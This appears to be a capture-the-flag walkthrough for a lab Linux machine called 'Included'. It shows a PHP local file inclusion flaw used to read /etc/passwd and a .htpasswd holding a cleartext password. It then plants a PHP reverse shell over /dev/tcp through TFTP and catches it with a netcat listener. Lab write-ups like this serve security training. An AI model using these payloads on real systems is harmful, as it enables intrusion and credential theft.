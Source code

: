 # MACHINE - INCLUDED

IP: 10.129.243.148

Type: Linux

---

## OPEN PORTS

```
$ nmap -sVC -T4 -Pn -p- {IP}
```

- [1] 80/tcp http **Apache httpd 2.4.29**

```
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php
```

---

## ACCESSING THE SITE

- Above we notice that the requested resource comes with a GET parameter `file`
- This is a common practice when dynamically load pages in the site

```php
if ($_GET['file']) {
    include($_GET['file']);
} else {
    header("Location: http://$_SERVER[HTTP_HOST]/index.php?file=home.php");
}
```

- If not programmed correctly it can lead to vulnerabilities and attack vectors
- In this case it was not programmed correctly ...
- This type of vulnerability is called *Local File Inclusion* (LFI)

> Local file inclusion (also known as LFI) is the process of including files, that are
> already locally present on the server, through the exploitation of vulnerable inclusion
> procedures implemented in an application.

```bash
$ curl -X GET http://{IP}/?file=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

- First of all, we see that there is a user named `mike`
- Let's see if we can get the flag of the user

```bash
$ curl -X GET http://{IP}/?file=/home/mike/user.txt

<Empty Result>
```

- Unfortunately either we cannot access the file, or it does not exists
- Also other names could be tried

```bash
$ curl -X GET http://{IP}/?file=/home/mike/flag.txt

<Empty Result>

$ curl -X GET http://{IP}/?file=/home/mike/mike.txt

<Empty Result>
```

- We also see another interesting user, named `tftp`

---

## TFTP

> Trivial File Transfer Protocol (TFTP) is a simple protocol that provides
> basic file transfer function with no user authentication. TFTP is intended 
> for applications that do not need the sophisticated interactions that File 
> Transfer Protocol (FTP) provides. It works over UDP, which is lightweight
> and unsecure. The default port is 69/UDP

- Let's see if the service is up and running using NMAP

```bash
$ sudo nmap -sU -T3 -p69 {IP}

PORT   STATE         SERVICE
69/udp open|filtered tftp
```

- Now that we are sure that the service is up we can try to access it

```bash
$ tftp
(to) {IP}
tftp> help

Commands may be abbreviated.  Commands are:

connect         connect to remote tftp
mode            set file transfer mode
put             send file
get             receive file
quit            exit tftp
verbose         toggle verbose mode
trace           toggle packet tracing
literal         toggle literal mode, ignore ':' in file name
status          show current status
binary          set mode to octet
ascii           set mode to netascii
rexmt           set per-packet transmission timeout
timeout         set total retransmission timeout
?               print help information
help            print help information
```

- However, there is no command for listing directories
- From the `/etc/passwd` we only know that files are stored in `/var/lib/tftpboot/`

---

## SOME MORE INFORMATIONS

- Let's enumerate the directories of the site

```bash
$ gobuster -u http://{IP}/ -w /usr/share/wordlists/dirb/common.txt

...
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.95.185/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.95.185/images/]
/index.php            (Status: 301) [Size: 308] [--> http://10.129.95.185/]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
...
```

- Leveraging LFI vulnerability

```bash
$ curl -X GET http://{IP}/?file=.htpasswd

mike:Sheffield19
```

- Now we have a username and a password stored in clear text
- Still there is no remote shell service we can use
- Until now we know:

1. There is a user named `mike` with password `Sheffield19`
2. The TFTP service is up and running, with default folder `/var/lib/tftpboot/`
3. The page is vulnerable to LFI

- Let's get more info on the user ... I guess, its group

```bash
$ curl -X GET http://{IP}/?file=/etc/group | grep mike

lxd:x:108:mike
mike:x:1000:
```

- The user mike belongs to the `lxd` group
- The user mike does not belong to the `sudoers` group

> *LXD* (pronounced lex-dee) is the lightervisor, or lightweight container hypervisor. 
> LXC (lex-see) is a program which creates and administers “containers” on a local system. 
> It also provides an API to allow higher level managers, such as LXD, to administer containers.

---

## GETTING A REVERSE SHELL

- Let's exploit all these vulnerabilities
- Write a simple PHP script for the reverse shell

```php
<?php system("/bin/bash -c 'exec bash -i &>/dev/tcp/{MyIP}/{remote-port} <&1'"); ?>
```

- Use TFTP to load it into the system

```bash
$ tftp {IP} -c put script.php
```

- On another shell start a netcat listener

```bash
$ nc -lnvp {remote-port}
```

- Launch the exploit

```bash
$ curl -X GET http://{IP}/?file=/var/lib/tftpboot/script.php
```

---

## FLAGS

USER: 

ROOT: 